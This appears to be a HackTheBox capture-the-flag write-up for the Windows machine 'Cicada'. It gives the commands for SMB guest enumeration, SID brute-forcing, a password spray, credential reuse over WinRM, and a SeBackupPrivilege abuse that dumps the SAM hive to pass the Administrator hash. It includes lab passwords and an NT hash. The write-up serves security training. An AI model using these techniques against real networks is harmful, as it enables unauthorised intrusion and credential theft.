


---
tags:
  - Windows
  - SMB
  - Guest access
  - Password spray
  - SeBackupPrivilege
---

... is an easy HTB machine which exposes a default-password in a `smb` share which is accessible as `Guest`. The usernames can be found by brute-forcing the `SID` using the tool `impacket-lookupsid`. With the new account another one can be found from a comment in the `nxc smb --users` scan. That account has access to a `DEV` share which reveals credentials to an account with `winrm` capabilities. For the privilege escalation, the `SeBackupPrivilege` can be abused to steal the `nthash` of the `Administrator`.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this (without `-sC`, as it is quite verbose):
```bash
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb, Site: Default-First-Site-Name)
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```
As this output is quite verbose, i will break it down below:

- Port `139` and `445`: Usually both indicate `SMB`. Port `139` relies on legacy `NetBIOS` (support for older machines), port `445` is a newer version using `TCP/IP`. `SMB` is highly interesting for exploitation, as it allows access to files / printers over the network.
- Port `389` and `636`: Are used for `LDAP` and `LDAPS`. Are used in windows active-directory scenarios to authenticate users / authorize them to take certain actions.
- Port `5985`: Port for `WinRM`. Comparable to `ssh`, usually exclusive to Windows. Interesting if credentials are found.

As the `nmap` scan indicates, the domain name `cicada.htb` and `CICADA-DC.cicada.htb` (from `-sC` scan) are in use. That is why i edit my `/etc/hosts` file as follows for local `DNS` resolution:
```bash
echo "$IP cicada.htb CICADA-DC.cicada.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

As with any windows machine, i first try enumerating the `SMB` service using `netexec`. As `Null Auths` are allowed (known after scanning with `nxc smb cicada.htb`), i can enumerate the shares with these credentials:
```bash
nxc smb cicada.htb -u 'a' -p '' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. can be anything, as it defaults to the user 'Guest', if the name is not found.
# -p: the password to use. empty here
# --shares: a flag which tells nxc to return a list of available shares.
```

The output of this command shows me the following shares:
```bash
Share           Permissions     Remark
-----           -----------     ------
ADMIN$                          Remote Admin
C$                              Default share
DEV                             
HR              READ            
IPC$            READ            Remote IPC
NETLOGON                        Logon server share 
SYSVOL                          Logon server share
```

The shares `DEV` and `HR` are custom shares offered on this service. As i have `READ` privileges over the `HR`  share, i decide to enumerate it with `smbclient` for any interesting files:
```bash
smbclient -U 'a' -N //$IP/HR
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here, 'a' is used as it defaults to the guest account.
# -N: use no password. is optional, as you can leave the password empty if it asks for it.
```

Within this share, i use `get "Notice from HR.txt"` to download and read this file. This file reveals that clear-text password `Cicada$M6Corpb*@Lp#nZp!8`, which is used as a default password for this domain. I now needed a username which still uses this password, which is why i decided to re-run the `nxc smb` scan using the `--users` flag instead of the `--shares` flag to enumerate all the available users and see if something is in their description, and sadly, i can not view the users as `Guest`.

That is why i tried a password-spray attack against the `smb`-service using the word-list `SecLists/Usernames/Names/names.txt`:
```bash
nxc smb cicada.htb -u names.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. here, the wordlist of usernames from SecLists is used
# -p: the password to use. try each username with the default password
# --continue-on-success: keep trying even if a valid pair is found
```

As this scan might take a while (`10.000` names), i researched other ways of gaining access to credentials in a `Windows AD` environment.

I stumbled upon [this blog](https://www.hackingarticles.in/active-directory-user-enumeration-a-comprehensive-guide/) where a bit of trial-and-error made me discover the tool `lookupsid` from the `impacket` suite. It deploys an brute-force attack on the `SID` (`Security Identifier`) to get a list of valid account names. To use it, the following command can be done with the guest login:
```bash
impacket-lookupsid cicada.htb/a:@$IP
```
This gave me a `users.txt` list with the following names:
```bash
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```
I stopped the password-spray attack, as none of these names were in the word-list `names.txt`, due to the format being `FIRSTNAME.LASTNAME`. I executed the same attack, but i used the new `users.txt` instead of the `SecLists` `names.txt`, but without the `local-auth`:
```bash
nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. here, the wordlist of usernames from SecLists is used
# -p: the password to use. try each username with the default password
# --continue-on-success: keep trying even if a valid pair is found
```

This gave me the valid credentials `cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`!

### Initial Exploitation
After finding a valid set of credentials for the domain, i can try further things. The first thing i tried is logging on via `winrm`:
```bash
evil-winrm -i cicada.htb -u "cicada.htb\michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8'
```
But `michael.wrightson` was not allowed to do so.

I could now try to do a `bloodhound` scan using this user, but i decided to investigate the `smb` service first to see if `michael` has more privileges than the `Guest` account:
```bash
nxc smb cicada.htb -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "michael.wrightson" here, but append "cicada.htb\", as LDAP is in place!
# -p: the password to use. 'Cicada$M6Corpb*@Lp#nZp!8' here.
# --shares: a flag which tells nxc to return a list of available shares.
```

This tells me that `michael` can additionally `READ` the `NETLOGON` and `SYSVOL` share, but they do not hold any interesting information.

The same scan with the `--users` flag does hold interesting information though:


This reveals the new set of credentials:
`cicada.htb\david.orelious:aRt$Lp#7t*VQ!3`.

As neither `david.orelious` has access to `winrm`, i rinse-and-repeat the previous step of checking for available `smb`-shares using the newly obtained credentials:
```bash
nxc smb cicada.htb -u 'cicada.htb\david.orelious' -p 'aRt$Lp#7t*VQ!3' --shares
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: the username to use. "david.orelious" here, but append "cicada.htb\", as LDAP is in place!
# -p: the password to use. 'aRt$Lp#7t*VQ!3' here.
# --shares: a flag which tells nxc to return a list of available shares.
```

It turns out, that `david` has `READ` privileges over the `DEV` share! I can enumerate it with the following command:
```bash
smbclient -U 'cicada.htb\david.orelious' //$IP/DEV
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -U: username to use. here, 'cicada.htb\david.orelious' is used.
# provide password when prompted!
```

This gives me the file `Backup_script.ps1`. In there, another new set of credentials is revealed: `cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt`.

And finally, this account is allowed to use the `winrm` service, giving me a `PowerShell` terminal, eliminating the need for `Lateral Movement`:
```bash
evil-winrm -i cicada.htb -u "cicada.htb\emily.oscars" -p 'Q!3@Lp#M6b*7t*Vt'
```

### Privilege Escalation
With windows machines, i always enumerate the current user's privileges using `whoami /all`, and this is the output (all `Enabled`):
```powershell
Privilege Name                Description
============================= ==============================
SeBackupPrivilege             Back up files and directories
SeRestorePrivilege            Restore files and directories
SeShutdownPrivilege           Shut down the system
SeChangeNotifyPrivilege       Bypass traverse checking
SeIncreaseWorkingSetPrivilege Increase a process working set
```

A quick google search for `windows privesc cheatsheet` reveals that the `SeBackupPrivilege` can easily lead to privilege escalation. This privilege allows the user to bypass regular `ACL's` (`Access Control Lists`) of files and directories to do backups. It is possible to abuse this privilege by backing up sensitive files (e.g. the `SAM hive` which stores hashes to all accounts), allowing you to read them and steal credentials to high privilege accounts, such as the local `Administrator`.

For this attack, i navigate to a directory which i can write to as `emily`, i have chosen the `C:\Users\emily.oscars.CICADA\Documents` directory. Within that, i can save the two files `sam.hive` and `system.hive` using the two commands:
```powershell
reg save hklm\sam C:\Users\emily.oscars.CICADA\Documents\sam.hive
```
```powershell
reg save hklm\system C:\Users\emily.oscars.CICADA\Documents\system.hive
```
I can then use the `evil-winrm` command `download` to get these files onto my local file-system:
```powershell
download sam.hive ./
```
```powershell
download system.hive ./
```

Using these two files, i can use the tool `secretsdump` from the `impacket` suite to dump all stored hashes from these two files:
```bash
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```
I receive three entries for the accounts `Administrator`, `Guest`, and `DefaultAccount` in the form of `uid:rid:lmhash:nthash`. The `nthash` is the valuable part here, as it can be used in `Pass-The-Hash` attacks. I pass this hash into the `winrm` login for the `Administrator` account, which gives me a `Powershell` with elevated privileges:
```bash
evil-winrm -i cicada.htb -u "cicada.htb\Administrator" -H '2b87e7c93a3e8a0ea4a581937016f341'
```

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `Administrator` worked as follows:

